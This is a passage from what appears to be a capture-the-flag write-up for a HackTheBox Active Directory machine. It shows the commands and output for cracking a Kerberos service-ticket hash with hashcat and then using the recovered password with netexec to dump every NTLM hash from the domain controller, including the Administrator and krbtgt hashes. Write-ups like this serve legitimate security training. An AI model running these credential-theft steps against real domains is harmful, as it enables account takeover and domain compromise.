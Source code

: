 We crack the <mark>Kerberos</mark> hash and revealing the password <mark>limpbizkit</mark>.

{% highlight shell %}
exegol-liemek hashes # hashcat -a 0 -m 13100 ethan.txt /opt/lists/rockyou.txt
hashcat (v6.2.6) starting

<SNIP>

$krb5tgs$23$*ethan$ADMINISTRATOR.HTB$administrator.htb/ethan*$599484f68ce765d2be682350035ac511$6478dd4<SNIP>:limpbizkit
{% endhighlight %}

### Dumping NTLM hashes

Using <mark>Ethan</mark>'s credentials we dump <mark>NTLM hashes</mark>.

{% highlight shell %}
exegol-liemek hashes # netexec smb 10.10.11.42 -u 'ethan' -p 'limpbizkit' --ntds
[!] Dumping the ntds can crash the DC on Windows Server 2019. Use the option --user <user> to dump a specific user safely or the module -M ntdsutil [Y/n] 
SMB         10.10.11.42     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False) 
SMB         10.10.11.42     445    DC               [+] administrator.htb\ethan:limpbizkit 
SMB         10.10.11.42     445    DC               [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
SMB         10.10.11.42     445    DC               [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         10.10.11.42     445    DC               Administrator:500:aad3b435b51404eeaad3b435b51404ee:3dc553ce4b9fd20bd016e098d2d2fd2e:::
SMB         10.10.11.42     445    DC               Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.10.11.42     445    DC               krbtgt:502:aad3b435b51404eeaad3b435b51404ee:1181ba47d45fa2c76385a82409cbfaf6:::
SMB         10.10.11.42     445    DC               administrator.htb\olivia:1108:aad3b435b51404eeaad3b435b51404ee:fbaa3e2294376dc0f5aeb6b41ffa52b7:::
SMB         10.10.11.42     445    DC               administrator.htb\michael:1109:aad3b435b51404eeaad3b435b51404ee:fd4d91c11452ab7660d5fd45173455ae:::
SMB         10.10.11.42     445    DC               administrator.htb\benjamin:1110:aad3b435b51404eeaad3b435b51404ee:5ab83367aaa6c8be5b78401dfdb55823:::
SMB         10.10.11.42     445    DC               administrator.htb\emily:1112:aad3b435b51404eeaad3b435b51404ee:eb200a2583a88ace2983ee5caa520f31:::
SMB         10.10.11.42     445    DC               administrator.htb\ethan:1113:aad3b435b51404eeaad3b435b51404ee:5c2b9f97e0620c3d307de85a93179884:::
SMB         10.10.11.42     445    DC               administrator.htb\alexander:3601:aad3b435b51404eeaad3b435b51404ee:cdc9e5f3b0631aa3600e0bfec00a0199:::
SMB         10.10.11.42     445    DC               administrator.htb\emma:3602:aad3b435b51404eeaad3b435b51404ee:11ecd72c969a57c34c819b41b54455c9:::
SMB         10.10.11.42     445    DC               DC$:1000:aad3b435b51404eeaad3b435b51404ee:cf411ddad4807b5b4a275d31caa1d4b3:::
SMB         10.10.11.42     445    DC               [+] Dumped 11 NTDS hashes to /root/.nxc/logs/ntds/DC_10.10.11.42_2025-05-05_045854.ntds of which 10 were added to the database
SMB         10.10.11.42     445    DC               [*] To extract only enabled accounts from the output file, run the following command: 
SMB         10.10.11.42     445    DC               [*] cat /root/.nxc/logs/ntds/DC_10.10.11.42_2025-05-05_045854.ntds | grep -iv disabled | cut -d ':' -f1
SMB         10.10.11.42     445    DC               [*] grep -iv disabled /root/.nxc/logs/ntds/DC_10.10.11.42_2025-05-05_045854.ntds | cut -d ':' -f1
{% endhighlight %}
